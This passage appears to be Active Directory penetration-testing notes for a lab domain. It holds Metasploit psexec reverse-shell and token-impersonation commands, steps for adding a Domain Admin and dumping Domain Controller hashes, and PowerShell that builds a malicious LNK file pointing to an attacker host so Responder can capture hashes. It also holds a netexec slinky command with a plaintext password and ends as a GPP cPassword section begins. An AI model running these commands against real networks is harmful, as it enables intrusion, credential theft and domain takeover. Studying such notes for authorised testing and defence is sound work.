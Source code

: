 ```batch
net group "Domain Admins" hawkeye /ADD /DOMAIN
```
2. Run mimikatz to dump hashes from the Domain Controller.
## Using Metasploit
### Incognito tool.
```bash
msfconsole
# Get a basic shell in the machine using psexec
msf > search psexec
msf > set payload windows/x64/meterpreter/reverse_tcp
# Set all the other options and run the command to get a shell
```
After getting a shell with metasploit, load the incognito tool
```bash
meterpreter > load incognito
```
list tokens in the machine
```bash
meterpreter > list_tokens
```
Impersonate the user
```bash
meterpreter > iimpersonate_token MARVEL\\administrator
meterpreter > shell
```
After getting a shell as Domain Admin add a new user and add that user to the domain admin's group as shown in the examples above.
Use `secretsdump.py` with the newly created user to dump the Domain Controller's secrets.
# LNK File Attacks
## Powershell method
Placing a malicious file in a shared folder can lead to some great results
Using powershell to generate a file
Place that file in a file share
```powershell

$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\attacker-ip\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```
Have responder on
```bash
sudo responder -I eth0 -dPv
```
Once the file is triggered, we get a hash
## netexec tool
`netexec` is an updated crackmapexec
Using the Built-in module `slinky`
```bash
netexec smb 10.0.0.0/24 -d marvel.local -u fcastle - Password1 -M slinky -o NAME=test SERVER=attacker-ip
```
# GPP Attacks AKA cPassword Attacks
Old issue, might be patched in new systems, but still good to keep in mind
Group Polict Prefereces allowed administrtors to create policies using embedded credentials.
